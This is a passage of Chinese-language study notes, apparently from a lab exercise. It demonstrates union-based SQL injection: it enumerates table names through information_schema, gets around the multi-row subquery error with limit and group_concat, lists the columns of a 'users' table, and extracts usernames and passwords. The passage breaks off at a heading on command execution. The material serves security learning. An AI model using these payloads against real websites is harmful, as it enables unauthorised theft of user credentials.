 

根据库名查表名：

?id=-1' union select 1,(select table_name from information_schema.tables where table_schema=database()),3 --+

报错：Subquery returns more than 1 row 结果超过一行 显示不了 

有两个办法：

一是：?id=-1' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 0,1),3 --+

?id=-1' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 1,1),3 --+

二是直接使用group_concat函数

?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 --+

表名就都出来了

 

//information_schema

 

查列名

  把table改成column 在后面加上and table_name=’users’

?id=-1'union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3 --+

 

 

取具体数据

看一下他的username 和password

?id=-1' union select 1,(select group_concat(username) from users),3 --+

?id=-1' union select 1,group_concat(username),group_concat(password) from users --+

 

 

 

 

 

# 二、命令执行漏洞

## 命令连接符
